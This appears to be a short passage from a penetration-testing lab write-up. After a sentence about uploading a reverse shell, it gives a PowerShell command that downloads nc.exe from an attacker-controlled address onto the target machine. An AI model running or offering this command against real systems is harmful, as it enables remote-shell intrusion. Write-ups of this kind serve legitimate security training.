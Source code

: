 <figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

&#x20;It is then possible to upload a reverse shell using a python web server and powershell on the target machine.

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.45.193/nc.exe', 'nc.exe')
```
